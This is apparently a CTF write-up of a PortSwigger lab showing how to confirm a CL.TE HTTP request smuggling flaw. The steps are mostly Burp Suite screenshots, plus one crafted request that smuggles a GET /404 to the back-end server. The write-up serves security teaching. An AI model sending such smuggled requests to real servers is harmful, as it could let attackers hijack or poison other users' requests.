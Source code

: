 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses), you'll learn: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183613.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183618.png)

We can send this request to Burp Suite Repeater to test HTTP request smuggling.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183651.png)

Then change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128183714.png)

Now, we want to confirm the web application is vulnerable to CL.TE HTTP request smuggling (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header).

**To do so, we can first send an attack request:**
```http
POST / HTTP/1.1
Host: 0a3b0080037a1918c3ed3938006c0073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Foo: x
```

This request will:

- The front-end server handles the `Content-Length` header
- The back-end server handles the `Transfer-Encoding` header, which means the `GET /404 HTTP/1.1\r\nX-Foo: x` will be smuggled to the back-end

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128184343.png)

**Then, we send a normal request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-4/images/Pasted%20image%2020230128184535.png)

Nice! We successfully smuggled our 404 request! Now we can confirm it's vulnerable to CL.TE HTTP request smuggling.

# What we've learned:

1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses